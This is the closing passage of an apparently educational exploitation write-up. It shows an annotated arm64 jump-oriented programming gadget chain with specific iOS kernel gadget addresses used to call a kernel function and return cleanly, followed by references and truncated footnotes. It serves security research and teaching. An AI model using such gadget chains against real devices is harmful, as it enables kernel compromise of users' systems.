 ```
		ARGUMENT_12
		ARGUMENT_13
		?
		?
	]
	pc = GADGET_CALL_FUNCTION_1

;; Now all the arguments are set up correctly and we will execute
;; GADGET_CALL_FUNCTION_1. The following gadget allows us to resume execution
;; after the function call without messing with x30.

GADGET_CALL_FUNCTION_1 (0xfffffff00753ac98):
		blr x24
		mov x19, x0
		ldr x8, [x25]
		ldr x8, [x8, #0xd0]
		mov x0, x25
		blr x8
	pc = FUNCTION
	x0 = RESULT
	x19 = RESULT
	x8 = REGION_POPULATE_VALUES[0] = REGION_1
	x8 = REGION_1[0xd0] = GADGET_STORE_RESULT_2
	x0 = REGION_POPULATE_VALUES
	pc = GADGET_STORE_RESULT_2

GADGET_STORE_RESULT_2 (0xfffffff00629ee70):
		str x19, [x0, #0x288]
		ldr x0, [x0, #0x268]
		ldr x8, [x0]
		ldr x8, [x8, #0x158]
		blr x8
	REGION_POPULATE_VALUES[0x288] = RESULT
	x0 = REGION_POPULATE_VALUES[0x268] = REGION_2
	x8 = REGION_2[0] = REGION_3
	x8 = REGION_3[0x158] = GADGET_EPILOGUE_2
	pc = GADGET_EPILOGUE_2

GADGET_EPILOGUE_2 (0xfffffff0070ef450):
		;; Reset stack to entry conditions and return to caller. sp
		;; must have been preserved from the prologue.
		ldp x29, x30, [sp, #0x90]
		ldp x20, x19, [sp, #0x80]
		ldp x22, x21, [sp, #0x70]
		ldp x24, x23, [sp, #0x60]
		ldp x26, x25, [sp, #0x50]
		ldp x28, x27, [sp, #0x40]
		add sp, sp, #0xa0
		ret
	RESTORE_REGISTERS(x19, ..., x28)
	pc = CALLER
```


[call_strategy_1.c]: https://github.com/bazad/memctl/blob/2049ddea16ed13ea92aca8a2576b216da90d8763/src/libmemctl/arm64/jop/call_strategy_1.c
[call_strategy_3.c]: https://github.com/bazad/memctl/blob/2049ddea16ed13ea92aca8a2576b216da90d8763/src/libmemctl/arm64/jop/call_strategy_3.c
[call_strategy_5.c]: https://github.com/bazad/memctl/blob/2049ddea16ed13ea92aca8a2576b216da90d8763/src/libmemctl/arm64/jop/call_strategy_5.c
[iokit_user_client_trap]: https://conference.hitb.org/hitbsecconf2013kul/materials/D2T2%20-%20Stefan%20Esser%20-%20Tales%20from%20iOS%206%20Exploitation%20and%20iOS%207%20Security%20Changes.pdf
[Procedure Call Standard for the ARM 64-bit Architecture]: http://infocenter.arm.com/help/topic/com.arm.doc.ihi0055b/IHI0055B_aapcs64.pdf
[ARM64 Function Calling Conventions]: https://developer.apple.com/library/content/documentation/Xcode/Conceptual/iPhoneOSABIReference/Articles/ARM64FunctionCallingConventions.html
[jump-oriented programming]: https://repository.lib.ncsu.edu/bitstream/handle/1840.4/4135/TR-2010-8.pdf
[ipsw.me]: https://ipsw.me
[joker]: http://newosxbook.com/tools/joker.html
[memctl]: https://github.com/bazad/memctl
[ROPgadget]: https://github.com/JonathanSalwan/ROPgadget
[Capstone]: https://github.com/aquynh/capstone
[^1]: I've gotten in the habit of referring to jump-oriented programs as "JOP programs", despite
[^2]: Of course, if you have a kernel memory read/write primitive, as I'm assuming for this post,
[^3]: I'm not sure why Apple refers to its architecture as arm64 while ARM refers to the 64-bit
[^4]: My ROPgadget patch adds a few lines so that all segments and sections marked with the execute
[^5]: Here we are assuming that all the saved arguments in the structure are 64 bits, which means
[^6]: The first two gadgets might initially seem useful because they load register `x8`, the